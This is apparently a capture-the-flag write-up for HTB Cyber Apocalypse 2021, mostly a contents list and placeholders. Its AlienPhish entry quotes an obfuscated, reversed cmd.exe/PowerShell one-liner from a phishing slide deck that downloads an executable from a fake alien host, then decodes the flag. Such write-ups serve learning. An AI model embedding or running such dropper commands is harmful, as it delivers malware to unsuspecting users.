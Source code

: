 <p align="center"> ### Cyber Apocalyspe, April 2021 documentation ### </p>
<p align="center"> ### Placement: 383 / 4740 ### </p>
<br/><br/>

- [FORENSICS](#forensics)
  - [Key mission](#key-mission)
  - [AlienPhish](#alienphish)
  - [Invitation](#invitation)
- [MISC](#misc)
  - [Alien Camp](#alien-camp)
  - [Input as a Service](#input-as-a-service)
- [REV](#rev)
  - [Passphrase](#passphrase)
  - [Authenticator](#authenticator)
- [CRYPTO](#crypto)
  - [Nintendo Base64](#nintendo-base64)
  - [PhaseStream 1](#phasestream-1)
  - [PhaseStream 2](#phasestream-2)
  - [PhaseStream 3](#phasestream-3)
  - [PhaseStream 4](#phasestream-4)
- [Hardware](#hardware)
  - [Serial Logs](#serial-logs)
  - [Compromised](#compromised)
  - [Secure](#secure)
- [WEB](#web)
  - [Inspector Gadget](#inspector-gadget)
  - [MiniSTRyplace](#ministryplace)

<br/><br/>

## FORENSICS

### Key mission
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;~ Zenode

todo

### AlienPhish

Given a pptx file, opening in office 2010 powerpoint we can see that there's a command being run in presentation mode at mouseover.

```
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&&for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&&if %X leq 0 call %kCX:*kCX!=%"
```

A lot of it is in reverse. http://destroyearth.alien/ does not exist, but the name of that exe file is base64 and in reverse (of the reverse) it yields the flag, `CHTB{pH1sHiNg_w0_m4cr0s???}`.


### Invitation
